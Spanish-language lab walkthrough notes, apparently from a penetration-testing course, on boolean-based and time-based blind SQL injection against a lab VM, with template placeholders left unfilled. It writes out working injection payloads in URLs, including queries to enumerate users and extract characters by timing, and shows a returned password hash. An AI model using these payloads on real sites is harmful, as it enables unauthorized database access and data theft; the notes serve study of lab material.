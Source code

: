 # Walk: Laboratorio 3 de 3 - Blind SQL injection

## Fecha: 25/01/2025
## Host: Ubuntu
## IP: 192.168.168.16

---

## Objetivo
Replicate the **time-based and boolean-based blind SQL injections** described in this Learning Unit on VM 1. 
Blind SQLi are called like this because the database output is never returned to the user. 
To infer the result of the query, the output of which component is employed instead?

---
## Herramientas
1. tool - 1 
2. tool - 2
---
## Procedimiento y comandos
1. Paso 1: En este caso las inyecciones van por GET en la URL del siguiente modo:
	- ** http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //**
	- Al ejecutar este query, obtenemos informacion del usuario
	Username: offsec
	Password Hash: f9664ea1803311b35f81d07d8c9e072d
	Description: try harder 
	- La aplicacion devuelve informacion siempre y cuando el usuario exista en la base de datos
	- Dado que **1=1** siempre va a ser true.
	- Son de tipo **boolean** o **boolean-based**
2. Paso 2: Podemos inferif el mismo resultado con **time-based** SQLi payloads:
	- **http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //**
	- **AND IF(1=1, sleep(3), 'false')** El operador AND introduce una condición adicional que debe ser evaluada por la base de datos.
	- **IF(condition, true_action, false_action)** es una función SQL que ejecuta true_action si la condition es verdadera, o false_action si es falsa.

---
## Conclusion
- Es el propio comportamiento de la web que nos ayuda a inferir la vulnerabilidad del sitio.
- Podemos ejecutar para deducir usuarios:
- **AND IF((SELECT COUNT(*) FROM users WHERE user_name='admin')>0, sleep(3), 'false') -- //** Donde preguntamos si la cantidad de usuarios
que tienen el nombre admin es mayor que 0.
- O el primer caracter de un valor:
- **AND IF(SUBSTRING((SELECT user_name FROM users LIMIT 1),1,1)='a', sleep(3), 'false')**
- Si hay un usuario que comience con 'a' la pagina tardara 3 segundos en responder.

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

